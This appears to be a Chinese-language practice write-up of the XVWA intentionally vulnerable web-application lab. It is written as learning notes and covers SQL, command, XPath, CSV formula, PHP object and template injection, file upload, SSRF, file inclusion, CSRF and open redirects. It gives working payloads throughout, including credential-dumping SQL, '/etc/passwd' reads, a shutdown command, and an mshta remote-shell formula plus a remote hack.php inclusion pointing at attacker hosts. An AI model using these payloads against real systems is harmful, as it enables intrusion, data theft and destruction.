

[NOTE] XVWA靶场练习笔记
前言
又一个靶场….
上一个是DSVW
这次尽量搞快点把，还得学渗透呢
另外把这个靶场的环境适配到Ubuntu有点麻烦，能用就行
说到底还是要看看什么时候能不用小皮面板整个Web服务器试试
另另外XVWA，是Xtreme Vulnerable Web Application
Xtreme…
SQL Injection – Error Based
场景介绍了很多种类的咖啡
爱了爱了
有两个编辑处，一个是选择Code返回对应的咖啡信息
一个是搜索栏，输入关键词返回所有相关的咖啡信息
BP看看，POST传送参数item和search两个参数不能同时传
选择框
输入'，确实报错：
check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’’ at line 1
' or '1'='1：check the manual that corresponds to your MySQL server version for the right syntax to use near ‘1’=’1’ at line 1
？试试数字型：222 or 1=1 #，有了，选择框是数字型注入
1 order by 7 #：测出字段为7
99 union select 1,2,3,4,5,6,7：文字回显2、5、4、6、7（3在图片链接里）
爆表：99 union select 1,concat(table_name),3,user(),5,6,7 from information_schema.tables where table_schema=database()
爆列：99 union select 1,concat(column_name),3,user(),5,6,7 from information_schema.columns where table_schema=database() and table_name='users'
爆用户名和密码：99 union select 1,username,3,password,uid,6,7 from users
出来的是密码哈希
搜索栏
'：check the manual that corresponds to your MySQL server version for the right syntax to use near ‘%’ OR itemdesc LIKE ‘%’%’ OR categ LIKE ‘%’%’’ at line 1
看起来使用的是模糊查询LIKE '%{input}%'
%' #：全注
meirennengpodeliaowofang%' union select 1,2,3,4,5,6,7 #
下略
SQL Injection – Blind
盲注，这次注入'也不会有回显
但是选择个1会有完整回显——？
item=99 union select 1,database(),3,4,5,6,7&search=
？？？这不还是有回显嘛
可能这里的“盲”，仅指不输出错误语句，而不是只回显“对”或“错”
那就略了
建议去打sqli-labs的盲注
OS Command Injection
介绍了两个系统命令执行函数：
- system()
- shell_exec()
This allows a user to inject arbitrary commands that will execute on the remote host with the privilege of web server user.
输入IP/HOSTNAME返回ping的终端结果
;whoami，返回www
看看passwd：;cat /etc/passwd
关个机去吃饭：; shutdown now
？怎么关不了？
55555不能去吃饭了
怀疑是权限不够
看看源码，简单拼接而已：
1 | $cmd = shell_exec( 'ping -c 3 ' . $target ); |
XPATH Injection
XPATH injections are fairly similar to SQL injection with a difference that it uses XML Queries instead of SQL queries.
An attacker can send malicious requests to the application to find out how XML data is structured and can leverage the attack to access unauthorized XML data.
输入1正常返回，'警告：Warning: DOMXPath::query(): Invalid predicate in /www/xvwa/vulnerabilities/xpath/home.php on line 10
' or '1'='1：全注，字符型
下面是盲注
1' and count(/*)=1 and '1'='1：根节点数为1
1' and string-length(name(/*[position()=1]))=7 and '1'='1：根节点名称长为7
1' and substring(name(/*[position()=1]),1,1)='C' and '1'='1：根节点名称第一个字符为‘C’
1' and name(/*[position()=1])='Coffees' and '1'='1根节点名称为“Coffees”
看来是只有关于咖啡信息的XML，之前已经全注出来了
剩下的信息盲注意义不大
CSV Formula Injection
CSV公式注入？或者是CSV Excel宏注入？
没有验证CSV文件的内容
常发生在允许上传/下载CSV数据的站点
没听过，先学一波
学习链接：
CSV公式注入（CSV Injection）是一种会造成巨大影响的攻击向量。攻击包含向恶意的EXCEL公式中注入可以输出或以CSV文件读取的参数。当在Excel中打开CSV文件时，文件会从CSV描述转变为原始的Excel格式，包括Excel提供的所有动态功能。在这个过程中，CSV中的所有Excel公式都会执行。当该函数有合法意图时，很易被滥用并允许恶意代码执行。
就是，Excel中的一个单元格设置成=36+1
保存之后重新打开，就会被正确计算变成37
像是=、-、+、@这些符号都会触发这种行为
下面的例子需要事先在Excel中进行如下设置：选项->信任中心->信任中心设置->外部内容->动态数据交换的安全设置->勾选启用动态数据交换服务器启动(不推荐)
然后是打开计算器的经典例子
在随便一个单元格中输入如下内容：=1+cmd|' /C calc'!A0
保存，再打开，会有一系列提示
什么“更新链接”、“是否启动另外一个应用程序”
一律“是是是”
然后就会打开计算器了
理想的攻击场景是，攻击者找到这么一个有CSV公式注入的站点
注入恶意数据
管理员后台登入，导出CSV数据
然后打开，希望管理员没什么安全意识
权限全开，安全设置全关，嫌麻烦不读提示一律“对对对”
然后就中招了
被get shell或种马什么的
大概就是这样吧
腾讯问卷里边也出现过这个漏洞
另附一个远程连接shell的payload：+1+cmd|'/c mshta.exehttp://192.168.233.102:8080/a'!A0
回到靶场题目
这里需要先找到一个可以插入CSV数据的地方
就在这个漏洞下面的[任意文件上传模块](#Unrestricted File Upload)
上传下包含payload的数据：
然后回到表格，已经多了新增的项

然后模拟管理员登录后台，导出数据再本地用Excel打开
（还得要求后台系统是Windows并且关闭相关安全选项）
就会弹出计算器
PHP Object Injection
这里讲的就是PHP反序列化
Though PHP Object Injection is not a very common vulnerability and also difficult to exploit, but it is found to be really dangerous vulnerbility as this could lead an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Denial of Service, depending on the application context.
点击CLICK HERE后
下面回显XVWA - Xtreme Vulnerable Web Application
同时注意到URL新增参数/?r=a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
猜测PHP对象用于在页面回显
于是有下面的XSS payload：/?r=a:2:{i:0;s:4:"XVWA";i:1;s:29:"<script>alert("XSS")</script>";}
但是一般反序列化，都要结合源码审计
源码下面有如下的代码：
1 | class PHPObjectInjection { |
其中__wakeup函数经常用在反序列化操作中
执行unserialize时，会检查并执行__wakeup方法，预先准备对象需要的资源
上面可以看到所定义的对象，若存在$inject变量，则会调用eval去执行
这里就是注入点
则可以进一步构造如下payload：O:18:"PHPObjectInjection":1:{s:6:"inject";s:10:"phpinfo();";}
改变$inject属性的值，即可执行任意php代码
另外在执行serialize时，检查并调用的是__sleep方法
Unrestricted File Upload
文件上传漏洞
先随便上传一张图片，然后在上传结果那里可以看到图像地址：www.xvwa.com/xvwa/img/uploads/pepe.jpeg
然后发现能直接上传一句话
蚁剑一连，OK
Cross Site Scripting (XSS) – Reflected
输入框，直接X爆
建议去看Pikachu靶场的练习笔记，我在里面做了相对详细的利用练习
Cross Site Scripting (XSS) – Stored

建议去看Pikachu靶场的练习笔记，我在里面做了相对详细的利用练习
Cross Site Scripting (XSS) – DOM
The attack triggers within the page, but with no need of requests/response pair.
页面的form表单里有一个JS脚本：
1 | var i = document.location.href.substring(document.location.href.indexOf("default=")); |
可见可以在URL里传入default参数，然后就会通过DOM语法生成到选单中：
然而奇怪的是，我不能构造出一个payload注入到里边形成XSS
试过URL编码和HTML编码都不行
好像payload会被URL编码之后才拼接到标签中：

搜索框倒是可以随便X（好像也不太行？）
Server Side Request Forgery (SSRF/XSPA)
XSPA：Cross Site Port Attack，跨站端口攻击
An attacker can trick the web server that could probability running behind a firewall to send requests to itself to identify services running on it, or can even send out-bond traffic to other servers.
相关源码：
1 | $image = ""; |
这里关键是没有对img_url传入的参数进行检查
使用file_get_contents对指示的资源进行读取
然后写入到随机生成的一个文件中，并放在服务器
而且可以通过查看图片源地址来得知文件在服务器上的位置
一个访问敏感信息文件的场景：
输入payload：../../../../../../etc/passwd
（这里也会有文件是否存在、有无权限等报错提示，存在目录遍历漏洞）
右键图片复制地址
curl一下即可查看内容：

或者是可以事先在恶意服务器上准备木马http://10.10.10.1/hack.php
然后复制图像地址，蚁剑连接
然而不行，弄到服务器本地的文件内容为空，一句话不存在
估计还有其他利用场景，就是查看内网站点页面，以及访问内网别的资源吧
File Inclusion
file参数可以本地文件包含，也可以远程文件包含
本地例：/?file=file:///etc/passwd
远程例：/?file=http://10.10.10.1/hack.php（但是蚁剑连不上？其他像是phpinfo函数倒是可以）
（phpinfo显示的是恶意服务器的信息）
（要事先把恶意脚本上传到本地，然后再包含，才能蚁剑连上）
Session Flaws
会话缺陷，这里指由于用户会话管理不当所引发的会话推测、劫持、固定和重放
这里看了看包，无论时登录、登出前后PHPSESSID似乎都是不变的，是固定的
然后登录和登出的数据包都可以重放
那是不是意味着，只要别的用户能抓到已经登陆的PHPSESSID
就能绕过登陆验证？
（问题是别人的PHPSESSID哪有这么好抓啊）
不太理解这题的利用场景
Insecure Direct Object Reference
不安全的对象直接引用
意思是请求的资源命名规律不要太明显了，容易被遍历
像是这题下拉框只给5个选项，但是可以在URL里遍历到5以上
Missing Functional Level Access Control
功能级权限控制缺失（在WebGoat里碰见过）
好像和越权有很大干系？
主要指，有一些本来应该隐藏的信息
如一些管理员才能执行的操作等
没有很好地隐藏（注释掉了或者只在HTML里hidden）
被发现了，就会被攻击者尝试执行恶意命令
这题地信息泄露，指源码泄露
发现URL中的action参数除了能看到的view之外
还有delete，攻击者可以越过页面执行删除数据操作
Cross Site Request Forgery (CSRF)
登陆后，修改密码的链接没有鉴权：http://www.xvwa.com/xvwa/vulnerabilities/csrf/?passwd=password&confirm=password&submit=submit
那么可以随意修改密码形成钓鱼链接或页面，诱惑受害者点击
从而按攻击者目的修改了受害者密码
需要社工
Cryptography
似乎只是一个介绍
介绍各个加密/编码，并且提醒要正确地使用它们
Unvalidated Redirects and Forwards
不安全的重定向和跟随重定向
说白了就是forward后面的链接参数没有限制
导致攻击者可以利用正常站点去钓鱼恶意网站http://www.xvwa.com/xvwa/vulnerabilities/redirect/?forward=http://www.hacker.com
Server Side Template Injection (SSTI)
不太熟
Web页面使用模板（templates）去让页面更加动态
SSTI常与XSS弄混
但前者能直接攻击服务器内部并引发更大的危害，如RCE或服务器被拿下等
大概和第三方组件有关
这里靶场使用的是叫TWIG的东西
得了解它的相关资料
一个命令执行的模板：{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
回显：Hello uid=1001(www) gid=1001(www) groups=1001(www)
==还不太理解这个TWIG==
总结
中规中矩的靶场吧